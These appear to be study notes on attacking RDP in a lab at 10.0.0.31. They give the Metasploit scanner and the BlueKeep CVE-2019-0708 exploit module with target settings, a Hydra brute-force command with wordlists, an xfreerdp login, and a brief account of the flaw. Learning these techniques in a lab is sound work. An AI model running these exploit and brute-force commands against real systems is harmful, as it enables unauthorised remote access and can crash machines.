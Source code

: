 # Metasploit:

- if rdp is not running on standard port 3389, 
- run auxiliary/scanner/rdp/rdp_scanner on suspected port, eg. 3333
  
  ![rdp_scanner output](./images/rdp-01.png)
  
- auxiliary/scanner/rdp/cve_2019_0708_bluekeep
- exploit/windows/rdp/cve_2019_0708_bluekeep_rce
	- set target 2
	- 2 : Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Virtualbox 6)

# Hydra:

- brute-force
- hydra -L <userlist> -P <passlist> rdp://10.0.0.31 -s 3333
- wordlists:
	- /usr/share/metasploit-framework/data/wordlists/common_users.txt
	- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
	- -s specifies non-standard port
- xfreerdp /u:<user> /p:<pass> /v:10.0.0.31:3333

# BlueKeep Vuln (CVE-2019-0708)

- takes adv of vuln in windows rdp protocol
- allows attacker to gain access to chunk of kernel mem
- allows remote code execution at system level without auth
- affects XP, Vista, Win7, WinServ2008 & R2
- exploit can cause system crash
